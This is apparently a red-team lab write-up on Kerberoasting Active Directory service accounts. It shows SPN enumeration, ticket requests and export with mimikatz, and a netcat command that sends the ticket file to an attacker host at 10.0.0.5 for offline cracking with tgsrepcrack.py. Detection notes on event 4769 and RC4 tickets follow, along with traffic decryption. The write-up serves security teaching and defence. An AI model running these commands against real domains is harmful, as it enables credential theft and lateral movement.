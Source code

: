 ```yaml
---
description: Credential Access
---
```


# Kerberoasting

This lab explores the Kerberoasting attack - it allows any domain user to request kerberos tickets from TGS that are encrypted with NTLM hash of the plaintext password of a domain user account that is used as a service account (i.e account used for running an IIS service) and crack them offline avoiding AD account lockouts.

## Execution

Note the vulnerable domain member - a user account with `servicePrincipalName` attribute set, which is very important piece for kerberoasting - only user accounts with that property set are most likely susceptible to kerberoasting:

![](../../.gitbook/assets/kerberoast-principalname.png)

Attacker setting up an nc listener to receive a hash for cracking:

{% code title="attacker@local" %}
```csharp
nc -lvp 443 > kerberoast.bin
```
{% endcode %}

### Extracting the Ticket

Attacker enumerating user accounts with `serverPrincipalName` attribute set:

{% code title="attacker@victim" %}
```csharp
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-enumeration.png)

Using only built-in powershell, we can extract the susceptible accounts with:

```csharp
get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}
```

![](../../.gitbook/assets/kerberoast-powershell.png)

It would have been better to use the following command provided by [Sean Metcalf](https://adsecurity.org/?p=2293) purely because of the `-filter` usage (quicker than `select-object`), but it did not work for me:

```csharp
get-adobject -filter {serviceprincipalname -like “*sql*”} -prop serviceprincipalname
```

Another alternative working on linux using [bloodyAD](https://github.com/CravateRouge/bloodyAD):
```csharp
python bloodyAD.py -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(!(cn=krbtgt))(&(samAccountType=805306368)(servicePrincipalName=*)))' --attr sAMAccountName | grep sAMAccountName | cut -d ' ' -f 2

iis_user
```

Additionally, user accounts with SPN set could be extracted with a native windows binary:

```
 setspn -T offense -Q */*
```

![](<../../.gitbook/assets/kerberoast-setspn (1).png>)

Attacker requesting a kerberos ticket (TGS) for a user account with `servicePrincipalName` set to `HTTP/dc-mantvydas.offense.local`- it gets stored in the memory:

{% code title="attacker@victim" %}
```csharp
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-kerberos-token.png)

Using mimikatz, the attacker extracts kerberos ticket from the memory and exports it to a file for cracking:

{% code title="attacker@victim" %}
```csharp
mimikatz # kerberos::list /export
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-exported-kerberos-tickets.png)

Attacker sends the exported service ticket to attacking machine for offline cracking:

{% code title="attacker@victim" %}
```csharp
nc 10.0.0.5 443 < C:\tools\mimikatz\x64\2-40a10000-spotless@HTTP~dc-mantvydas.offense.local-OFFENSE.LOCAL.kirbi
```
{% endcode %}

### Cracking the Ticket

Attacker brute forces the password of the service ticket:

{% code title="attacker@local" %}
```csharp
python2 tgsrepcrack.py pwd kerberoast.bin
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-cracked.png)

## Observations

Below is a security log `4769` showing service access being requested:

![](../../.gitbook/assets/kerberoast-4769.png)

If you see `Add-event -AssemblyName SystemIdentityModel` (from advanced Powershell logging) followed by a windows security event `4769` immediately after that, you may be looking at an old school Kerberoasting, especially if ticket encryption type has a value `0x17` (23 decimal, meaning it's RC4 encrypted):

![](<../../.gitbook/assets/kerberoast-logs (1).png>)

### Traffic

Below is the screenshot showing a request being sent to the `Ticket Granting Service` (TGS) for the service with a servicePrincipalName `HTTP/dc-mantvydas.offense.local` :

![](../../.gitbook/assets/kerberoast-tgs-req.png)

Below is the response from the TGS for the user `spotless` (we initiated this attack from offense\spotless) which contains the encrypted (RC4) kerberos ticket (server part) to access the `HTTP/dc-mantvydas.offense.local` service. It is the same ticket we cracked earlier with [tgsrepcrack.py](t1208-kerberoasting.md#cracking-the-ticket):

![](<../../.gitbook/assets/kerberoast-tgs-res (1).png>)

Out of curiosity, let's decrypt the kerberos ticket since we have the password the ticket was encrypted with.&#x20;

Creating a kerberos keytab file for use in wireshark:

{% code title="attacker@local" %}
```bash
root@~# ktutil 
ktutil:  add_entry -password -p HTTP/iis_svc@dc-mantvydas.offense.local -k 1 -e arcfour-hmac-md5
Password for HTTP/iis_svc@dc-mantvydas.offense.local: 
ktutil:  wkt /root/tools/iis.keytab
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-creating-keytab.png)

Adding the keytab to wireshark:

![](../../.gitbook/assets/kerberoast-wireshark-keytab.png)

Note how the ticket's previously encrypted piece is now in plain text and we can see information pertinent to the requested ticket for a service `HTTP/dc-mantvydas.offense.local` :

![](../../.gitbook/assets/kerberoast-decrypted.png)

### tgsrepcrack.py

Looking inside the code and adding a couple of print statements in key areas of the script, we can see that the password from the dictionary (`Passw0rd`) initially gets converted into an NTLM (`K0`) hash, then another key `K1` is derived from the initial hash and a message type, yet another key `K2` is derived from K1 and an MD5 digest of the encrypted data. Key `K2` is the actual key used to decrypt the encrypted ticket data:

![](../../.gitbook/assets/kerberoast-crackstation.png)

![](../../.gitbook/assets/kerberoast-printstatements.png)

I did not have to, but I also used an online RC4 decryptor tool to confirm the above findings:

![](../../.gitbook/assets/kerberoast-decryptedonline.png)

{% file src="../../.gitbook/assets/kerberoast.pcap" %}
kerberoast.pcap
{% endfile %}

## References

[Tim Medin - Attacking Kerberos: Kicking the Guard Dog of Hades](https://files.sans.org/summit/hackfest2014/PDFs/Kicking%20the%20Guard%20Dog%20of%20Hades%20-%20Attacking%20Microsoft%20Kerberos%20%20-%20Tim%20Medin\(1\).pdf)

{% embed url="https://attack.mitre.org/wiki/Technique/T1208" %}

{% embed url="https://github.com/nidem/kerberoast" %}

{% embed url="https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/" %}

{% embed url="https://adsecurity.org/?p=2293" %}

{% embed url="https://www.youtube.com/watch?v=nJSMJyRNvlM&feature=youtu.be&t=16" %}

{% embed url="http://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/" %}

{% embed url="https://pentestlab.blog/2018/06/12/kerberoast/" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-1/" %}

{% embed url="https://pentestlab.blog/2018/06/12/kerberoast/" %}

{% embed url="http://rc4.online-domain-tools.com/" %}

{% embed url="https://crackstation.net/" %}

{% embed url="https://blogs.technet.microsoft.com/askds/2008/03/06/kerberos-for-the-busy-admin/" %}

{% embed url="https://medium.com/@jsecurity101/ioc-differences-between-kerberoasting-and-as-rep-roasting-4ae179cdf9ec" %}
